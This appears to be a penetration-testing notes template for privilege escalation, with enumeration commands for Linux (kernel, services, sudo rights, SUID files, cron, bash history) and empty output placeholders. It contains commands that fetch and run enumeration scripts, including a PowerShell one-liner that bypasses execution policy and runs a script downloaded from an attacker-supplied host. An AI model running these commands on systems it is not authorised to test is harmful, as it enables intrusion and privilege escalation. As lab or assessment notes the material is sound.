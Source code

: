 # Privilege Escalation

## Linux

- **System Info**
    - **Kernel**
        ```bash
        uname -r
        ```
        ```bash
        <insert kernel version here>
        ```
    - **Services**
        ```bash
        ps aux
        ```
        ```bash
        <insert services here>
        ```
    - **Users**
        ```bash
        whoami
        ```
        ```bash
        <insert username here>
        ```

- **History**
    ```bash
    cat ~/.bash_history
    ```
    ```bash
    <insert bash history here>
    ```

- **sudo -l (List Sudo Permissions)**
    ```bash
    sudo -l
    ```
    ```bash
    <insert sudo permissions here>
    ```

- **SUIDs**
    ```bash
    find / -type f -perm /4000 2>/dev/null
    ```
    ```bash
    <insert suid files here>
    ```

- **Cronjobs**
    ```bash
    cat /etc/crontab
    ```
    ```bash
    <insert cronjobs here>
    ```

- **Linpeas**
    ```bash
    wget https://github.com/carlospolop/PEASS-ng/releases/download/2021.02.20/linpeas.sh
    chmod +x linpeas.sh
    ./linpeas.sh
    ```
    ```bash
    <insert linpeas output here>
    ```

## Windows

- **Winpeas**
    ```bash
    powershell -exec bypass -c "iex ((New-Object System.Net.WebClient).DownloadString('http://$IP_ADDRESS/winpeas.ps1'))"
    ```
    ```bash
    <insert winpeas output here>
    ```
